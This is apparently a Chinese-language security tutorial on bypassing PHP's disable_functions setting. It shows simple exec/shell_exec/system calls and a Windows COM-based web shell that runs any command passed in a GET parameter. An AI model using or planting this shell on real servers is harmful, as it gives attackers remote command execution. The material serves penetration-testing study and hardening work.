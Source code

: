 # PHP绕过disable_function限制

# 上 利用环境变量和系统组件

在维护网站时，为了安全,运维人员会禁用PHP的一些“危险”函数,将其写在 `php.ini` 配置文件中,就是我们所说的 `disable_functions` 了。例如：

`passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,link等`

将这些危险函数全部禁用，我们可以通过观察函数是否执行查看是否存在可利用的函数。

实验中的 `php.ini` 配置如下:

```ini
disable_functions=pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,dl,mail,system
```

## 1. 常规绕过

`常规绕过：exec,shell_exec,system,passthru,popen,proc_open`
理解为查看 `PHPinfo` 看看哪些没有被写进`ini`配置文件,绕过限制。

1. exec
    ```php
    <?phpecho exec('whoami');?>
    ```
2. shell_exec
    ```php
    <?phpecho shell_exec('whoami');?>
    ```
3. system
    ```php
    <?phpsystem('whoami');?>
    ```


## 2. 利用系统组件绕过

- 利用条件
    - `windows环境`
    - `com组件`(PHP5.4自带)(高版本扩展要自己添加）

测试：
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```
`?a=command`
![](img/10.png)
